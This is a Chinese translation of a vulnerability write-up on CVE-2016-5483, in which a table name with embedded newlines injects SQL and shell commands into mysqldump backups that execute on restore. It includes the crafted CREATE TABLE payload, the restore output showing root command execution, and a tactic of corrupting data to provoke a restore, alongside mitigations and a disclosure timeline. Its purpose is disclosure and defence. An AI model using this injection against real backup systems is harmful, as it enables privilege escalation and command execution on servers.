

# 【技术分享】CVE-2016-5483：利用mysqldump备份可生成后门


                                阅读量   
                                **99824**
                            
                        |
                        
                                                                                                                                    
                                                                                            


##### 译文声明

本文是翻译文章，文章原作者，文章来源：tarq.io
                                <br>原文地址：[https://blog.tarq.io/cve-2016-5483-backdooring-mysqldump-backups/](https://blog.tarq.io/cve-2016-5483-backdooring-mysqldump-backups/)

译文仅供参考，具体内容表达以及含义原文为准

[](./img/85658/t011204bee2fde3c42b.jpg)

****

翻译：[overXsky](http://bobao.360.cn/member/contribute?uid=858486419)

预估稿费：100RMB

投稿方式：发送邮件至[linwei#360.cn](mailto:linwei@360.cn)，或登陆[网页版](http://bobao.360.cn/contribute/index)在线投稿

**<br>**

**前言**

mysqldump是用来创建MySQL数据库逻辑备份的一个常用工具。它在默认配置下可以生成一个.sql文件，其中包含创建/删除表和插入数据等。在导入转储文件的时候，攻击者可以通过制造恶意表名来实现任意SQL语句查询和shell命令执行的目的。另一个与之相关的漏洞利用场景可以参考[通过构造数据库名对Galera进行远程代码执行攻击](https://blog.tarq.io/cve-2016-5483-galera-remote-command-execution-via-crafted-database-name/)。

<br>

**攻击场景**

攻击者已经能够访问你的应用程序并且执行任意SQL查询（比如通过一个过时的Wordpress插件安装的后门）

攻击者拥有创建表的权限（这很常见，许多指南和教程上都建议给安装程序授予此权限，或者执行GRANT ALL PRIVILEGES ON wordpress.*命令来授予Wordpress用户所有的权限）

被攻击目标使用mysqldump进行定期的数据库备份

攻击者想要提升权限并获得更多的系统访问

<br>

**攻击演示**

首先，攻击者使用如下查询创建一个恶意的表：


```
CREATE TABLE `evil  
! id
select user(),@@version/*`  (test text);
```

计划备份任务通常会在运行时为每一个表创建一个包含入口点的转储文件，格式类似于下面这样：


```
--
-- Table structure for table `tablename`
--
```

但是，用我们创建的恶意表名会让这个入口点变成这样：


```
--
-- Table structure for table `evil
! id
select user(),@@version/*`  
--
```

正如你所看到的，表名中的新行让攻击者能够插入任意行数的MySQL命令。一旦这段攻击载荷被成功导入，它将做如下几件事：

如果是它被mysql命令行客户端导入的，那么将通过sh执行id命令

它将执行一个任意查询，可以输出导入它的MySQL用户名和服务器版本

现在，攻击者开始在数据库中删除一些数据，到处插入一些随机损坏的Unicode字符，使得数据库看上去遭到了破坏。当管理员发现时，立马开始行动，准备从最新的备份中恢复数据。一旦他进行恢复操作，攻击载荷就会被执行：


```
$ mysql test &lt; backup.sql
uid=0(root) gid=0(root) groups=0(root) &lt;-- 攻击者的 shell 命令  
user()    @@version  
root@localhost    10.1.18-MariaDB &lt;-- 攻击者的 sql 查询
```

正如你看到的一样，攻击者成功地通过强制管理员恢复数据库来执行了一些讨厌的命令。至于如何创造一个能给攻击者留下后门的有效载荷，这就作为练习留给读者。

<br>

**缓解措施**


当使用mysqldump时加上 –skip-comments参数

在任何可能的地方撤销创建表的权限（这是最有效的手段）

在计划备份中只转储表的数据而不是表的结构

使用一些其他替代工具来备份MySQL数据

<br>

**受影响版本**

[](https://p2.ssl.qhimg.com/t0135cf128350e82932.png)

<br>

**披露事记**

2016.10.05：发现漏洞并向MariaDB和Oracle报告。

2016.10.06：从MariaDB收到回复，预计将在下个版本中修复。讨论了CVE指配。

2016.10.13：MariaDB确认将在版本5.5.53中修复该漏洞。

2016.10.18：收到CVE编号。

2017.03.09：没有收到来自Oracle Outside的自动回复。超过90天后公开披露漏洞。
